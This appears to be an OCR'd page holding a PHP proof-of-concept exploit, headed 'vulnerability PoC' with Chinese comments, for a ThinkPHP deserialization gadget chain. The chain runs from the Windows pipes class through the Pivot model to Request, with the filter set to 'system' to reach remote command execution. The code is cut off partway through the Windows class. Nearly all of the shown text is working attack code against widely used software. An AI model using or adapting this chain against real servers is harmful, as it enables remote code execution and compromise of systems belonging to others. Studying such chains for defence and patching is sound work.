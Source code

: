 #### -漏洞PoC

```php
<?php
/*step4 __toString可控的参数找到的地方是trait，完成实例化对象相关特性*/
namespace think\model\concern;
trait Conversion{
    protected $append;
}
trait Attribute {
    private $data;
}

/*step5 完成实例化对象相关实类*/
namespace think;
abstract class Model{
    use model\concern\Conversion;
    use model\concern\Attribute;
}

/*step6 完成目的接入rce的利用链条*/
class Request {
    /*step7 内部属性主要定位命令点是什么属性，进入rce分支是什么属性，执行命令代码的是什么属性*/
    protected $hook = [];
    protected $filter;
    //array_walk_recursive($data, [$this, 'filterValue'], $filter);
    protected $param = ['id']; //设执行的命令等同于$data,进入if(is_array($data)]

    // original setting false
    //protected $mergeParam = false;

    protected $config = [];
    // param($name..)为空，input($name,...),$name字符串格式化后为空字符串不会对进行$name转$data处理
    // 实际逻辑发现进入if分支也没事，默认配置_ajax不影响

    public function __construct()
    {
        $this->hook = ['visible' => [$this, 'isAjax']];
        //call_user_func_array([$this, 'isAjax'], ['任意值']) $args没用了
        $this->filter = 'system';
        //call_user_func(filter,)
    }
}

/*step3 调用的实类实例化对象，通过对象设置属性作为可控参数，传入执行的命令和命令代码*/
namespace think\model;
use think\Model;
use think\Request;

class Pivot extends Model{
    public function __construct()
    {
       $this->append = ['hello' => ['任意值']]; //$name params?
       $this->data = ['hello' => new Request()]; // obj
    }
}

/*step2 反序列化开始*/
namespace think\process\pipes;
use think\model\Pivot;

abstract class Pipes{}
class Windows extends Pipes {
    private $files = [];
```
